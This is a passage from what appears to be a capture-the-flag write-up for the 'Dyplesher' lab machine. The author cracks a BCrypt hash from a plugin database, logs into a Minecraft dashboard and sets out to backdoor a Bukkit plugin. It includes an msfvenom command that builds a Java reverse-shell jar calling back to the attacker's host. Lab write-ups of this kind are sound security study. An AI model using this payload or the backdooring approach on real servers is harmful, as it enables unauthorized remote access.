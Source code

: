 I found a Sqlite3 database, `users.db` in `plugins/LoginSecurity`.

{% include image.html image_alt="911159f3.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/911159f3.png" %}

And a BCrypt hash in `users.db`.

{% include image.html image_alt="9ca67fb0.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/9ca67fb0.png" %}

It didn't took long for JtR to crack the hash.

{% include image.html image_alt="89ad83cb.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/89ad83cb.png" %}

This must be the password to the `dyplesher.htb/login`. The email address must be `felamos@dyplesher.htb`.

### Minecraft Dashboard

Indeed.

{% include image.html image_alt="3ae00b96.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/3ae00b96.png" %}

### Malicious Plugin

On the sidebar there are options to add, delete and reload a plugin. If I'd to guess, I'd say the next step is to develop a malicious plugin. But how?

I first noted that on the **Delete Plugin** page there are three plugins. They are Bukkit plugins and one of them has a `.jar` extension.

{% include image.html image_alt="e92dc7f6.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/e92dc7f6.png" %}

Let's see for the sake of testing, if it accepts a payload encoded by `msfvenom` like so.

```
# msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.125 LPORT=1234 -f jar -o rev.jar
```

{% include image.html image_alt="dc1ca299.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/dc1ca299.png" %}

Snap, it doesn't. What's next?

#### Backdooring a Bukkit Plugin

I had a little reading on how to develop a Bukkit plugin from this [tutorial](https://bukkit.gamepedia.com/Plugin_Tutorial). Looks like it's pretty easy to backdoor'd a Bukkit plugin—all we need to do is to override the `onEnable()` method.

The PlugMan web interface also imposed two restrictions on plugin upload:

1. The name of the plugin must not be more than ten characters.
2. The file size of the plugin must not be more than 1Mb.

It turned out to be a blessing in disguise. All I'd to do was to look for a Bukkit plugin in the Bukkit project page that meet these requirements and have their source code listed in GitHub. I chose [OpenInv](https://github.com/lishid/OpenInv). Simply clone the repository and open the following file to insert your backdoor.

